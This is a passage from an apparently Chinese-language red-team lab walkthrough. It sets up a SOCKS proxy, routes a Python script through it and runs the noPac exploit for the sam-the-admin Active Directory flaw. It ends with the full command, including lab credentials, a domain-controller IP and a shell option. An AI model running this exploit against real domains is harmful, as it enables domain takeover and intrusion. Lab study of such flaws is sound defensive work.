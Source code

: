 在8888端口再起一个socks代理

![image-20231116162651972](images/35.png)

给python脚本添加一个两行代码走socks代理

```
socks.set_default_proxy(socks.SOCKS5, "127.0.0.1", 8888)
socket.socket = socks.socksocket
```

![image-20231116162917044](images/36.png)

这个漏洞有两个脚本

```
https://github.com/WazeHell/sam-the-admin

https://github.com/Ridter/noPac
```

第一个的话需要kali才能打，因为需要用到特定路径下的两个命令

这里我选择的是第二个noPac

```
python3 noPac.py -use-ldap redteam.lab/root:Red12345 -dc-ip 10.0.0.12 -shell
```
